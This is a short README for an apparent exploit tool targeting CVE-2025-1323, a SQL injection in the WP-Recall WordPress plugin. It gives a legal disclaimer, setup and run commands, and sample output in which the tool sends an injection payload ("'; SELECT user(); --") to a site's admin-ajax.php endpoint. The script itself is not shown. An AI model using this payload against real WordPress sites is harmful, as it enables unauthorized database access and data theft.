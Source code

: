 # cve-2025-1323
WP-Recall Plugin SQL Injection 

## ⚠️ Legal Disclaimer

This tool is intended for **authorized security testing and educational use only**.  
Do not use against systems without explicit permission. Misuse may be illegal.

## ✅ Requirements

- Python 3.x
- `requests` module

Install dependencies:

```bash
pip install requests

python CVE-2025-1323.py

Enter target URL (e.g. https://target.com/wp-admin/admin-ajax.php): https://example.com/wp-admin/admin-ajax.php
Enter ajax_nonce value: 37c11b0c06

[*] Sending payload: '; SELECT user(); --

[+] Response received:
{"result":"SQL error or leaked data here..."} 
